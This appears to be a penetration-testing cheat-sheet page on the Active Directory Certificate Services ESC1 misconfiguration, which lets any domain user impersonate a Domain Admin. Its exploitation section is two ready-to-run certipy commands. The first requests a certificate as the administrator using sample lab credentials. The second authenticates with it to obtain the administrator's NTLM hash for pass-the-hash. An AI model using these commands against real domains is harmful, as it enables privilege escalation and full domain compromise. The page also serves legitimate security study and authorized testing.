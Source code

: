 # ESC1

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**ESC1**</mark> (from ESCalate) <mark style="color:purple;">**allows any domain user**</mark> <mark style="color:purple;">**to impersonate**</mark> (become) a Domain Admin or any other user by requesting a certificate "as them" and logging in using that certificate.

## <mark style="color:yellow;">EXPLOITATION</mark>

### <mark style="color:blue;">Request Cert as Admin</mark>

```bash
certipy req -u 'Solomon.Reed@militech.local' -p 'SuperAgent12' -dc-ip 13.13.13.13 -target 13.13.13.13 -ca militech-DC-CA -template UserAuthentication -upn administrator@militech.local -debug
```

### <mark style="color:blue;">**Auth as Admin**</mark>

```bash
certipy auth -pfx administrator.pfx -dc-ip 13.13.13.13
```

In the result we would have administrator's NTLM hash we could use for PTH.

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://www.hackingarticles.in/ad-certificate-exploitation-esc1/" %}
